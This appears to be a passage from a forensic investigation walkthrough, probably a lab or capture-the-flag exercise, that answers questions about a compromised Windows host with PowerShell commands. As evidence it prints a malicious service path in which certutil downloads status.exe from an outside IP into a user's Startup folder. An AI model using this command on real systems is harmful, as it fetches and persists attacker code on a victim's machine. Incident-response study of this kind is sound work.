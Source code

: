 Output - Evidence:

```powershell
--------------------
Service Name: CDPUserSvc_9286x
Executable Path: C:\Windows\System32\certutil.exe -urlcache -split -f http://128.199.247.173/status.exe 'C:\Users\Administtrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\status.exe'
--------------------
```

![image.png](image%206.png)

> **When did the attacker send the malicious email?**
> 

Command:

```powershell
ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Microsoft\Outlook\" 2>$null | findstr Directory}
```

Output - Evidence:

```powershell
Directory: C:\Users\m.anderson\AppData\Local\Microsoft\Outlook
```
